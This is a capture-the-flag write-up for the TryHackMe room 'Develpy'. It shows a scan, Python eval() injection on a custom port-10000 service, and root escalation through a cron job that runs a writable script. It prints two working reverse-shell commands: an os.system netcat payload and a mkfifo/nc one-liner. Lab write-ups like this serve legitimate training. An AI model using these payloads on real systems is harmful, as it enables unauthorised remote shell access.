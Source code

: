 # Develpy

---

Platform: Tryhackme

Difficulty: Medium

Initial Access: Misconfigured python script running on open port

Privilege escalation: Misconfigured file permission and weak security practices.

---

Nmap scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/develpy]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.201.67.205 -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 23:12 EDT
Nmap scan report for 10.201.67.205
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
10000/tcp open  snet-sensor-mgmt?
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port | Methodology |
| --- | --- |
| 22 (SSH) | Potentially for later use. |
| 10000 (unknown) | Looks like some kind of custom service. |

---

### Initial Access

Connected to the port 10000 via netcat, some type of python script is running which is asking for a input.

![image.png](image.png)

<aside>
💡

This type of service often contains vulnerabilities in the way it handles your input (e.g., `eval()` on Python input, insecure `int()` casting without sanitization, or even command injection if it’s running shell commands in the background).

</aside>

We can try some different payloads instead of providing what it wants from us.

![image.png](image%201.png)

Ok, that means it’s using `eval()` on your input, which is executing commands directly on the target.

We can now gain reverse shell through that.

```bash
payload = __import__('os').system('nc <ip> 4445 -e /bin/sh')
```

![image.png](image%202.png)

![image.png](image%203.png)

Grabbed user.txt from king’s home directory

```bash
king@ubuntu:~$ ls -la
ls -la
total 324
drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Aug  9 20:25 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
king@ubuntu:~$ cat user.txt
cat user.txt
cf85ff7..............REDACTED
```

---

### Privilege Escalation

There were some suspicious .sh files like `run.sh, root.sh` in king’s home directory

![image.png](image%204.png)

- root.sh
    
    ![image.png](image%205.png)
    
    Only have read access to this file, and it’s running some king of python file inside `/root/company/media` directory.
    
- run.sh
    
    ![image.png](image%206.png)
    
    It’s the file which is serving that exploit.py file on port 10000, useless for privilege escalation.
    

Now, we can check cronjobs running in the background.

![image.png](image%207.png)

Ok, root is firstly changing directory to `/home/king` which is owned by King and then executing root.sh file.

As can king have full permission to it’s home directory, it can remove that existing root.sh file and create a new root.sh file with reverse shell in it. As root will execute that file, we will get root’s shell.

```bash
reverse-shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 4446 >/tmp/f
```

![image.png](image%208.png)

After a few seconds, got root’s shell.

![image.png](image%209.png)

Grabbed root.txt from root directory.

```bash
# cd /root
# ls -la
total 32
drwx------  4 root root 4096 Aug 25  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  4 root root 4096 Aug 27  2019 company
-rw-r--r--  1 root root 1185 Nov 12  2018 .gitignore
drwxr-xr-x  2 root root 4096 Aug 25  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 25  2019 root.txt
# cat root.txt
9c37646..............REDACTED
```

---

That’s it for this machine.✅